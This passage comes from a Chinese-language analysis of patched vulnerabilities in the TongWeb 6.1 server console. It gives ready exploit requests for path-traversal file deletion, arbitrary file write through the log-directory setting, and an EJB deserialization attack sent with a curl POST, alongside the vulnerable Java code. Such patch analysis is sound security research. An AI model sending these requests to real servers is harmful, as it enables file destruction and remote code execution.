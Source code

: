 ```java
    @POST
    @Path("delete")
    @Produces({"application/json"})
    public ResultInfo deleteSnapshot() {
        ResultInfo result = null;
        String nameString = this.getStringParameterMap("snapshotnames");
        String[] beannames = nameString.split(",");
        result = this.service.deleteSnapshotBeans(Arrays.asList(beannames));
        return result;
    }
}
```
snapshots的根目录是`C:\TongWeb6.1\snapshot`，根据想要删除的文件，可以跨目录拼接

发送数据包的payload如下
```
POST /console/rest/monitor/snapshots/delete?snapshotnames=../applications/console/aa.jsp
```

**（6）访问日志-任意文件写入&路径穿越漏洞**
	
定位补丁_003，com.tongweb.console.log.controller.LogShowController
```
POST /console/rest/log/setServerLogConfig?serverlogDir=applications/console/&rotationFileCount=1
```

定位补丁_001。`com.tongweb.console.webcontainer.controller.AccessLogController#update`

```
POST /console/rest/webconfig/accesslog/put
```

**（7）spring、CommonsCollections、XStream漏洞**

xmlpull、CommonsCollections、XStream组件升级_补丁008、补丁009

**（8）EJB远程调用反序列化漏洞**

位于补丁_002
```
com.tongweb.tongejb.server.httpd.ServerServlet
com/tongweb/tongejb/core/ivm/EjbObjectInputStream.class_补丁002
com/tongweb/tongejb/client/EjbObjectInputStream.class
```
需要注意的是，这个类本身在web.xml中默认是被注释掉的，也就是无法访问的。需要手动开启。
```xml
    <servlet>
        <servlet-name>ServerServlet</servlet-name>
        <servlet-class>com.tongweb.tongejb.server.httpd.ServerServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>ServerServlet</servlet-name>
        <url-pattern>/ejb/*</url-pattern>
    </servlet-mapping>
```
并且在console目录下，需要登陆权限，所以发包时需要加入cookie，这个反序列化的数据包和之前生成的新CB1有一些不同，主要看一下调用代码中存在的一个问题
```	
curl -X POST "http://ip:9060/console/ejb/" --data-binary @test2.txt -H "Content-type: application/octet-stream" -H "Cookie: xxx" 
```
ServerServlet是请求的入口，其service方法调用了`EjbServer.service()`，继续跟进调用的是`EjbDaemon.service()`，代码如下
```java
public void service(InputStream in, OutputStream out) throws IOException {
    ProtocolMetaData protocolMetaData = new ProtocolMetaData();
    ObjectInputStream ois = null;
    ObjectOutputStream oos = null;
    RequestType requestType = null;
    byte requestTypeByte = RequestType.NOP_REQUEST.getCode();

    try {
```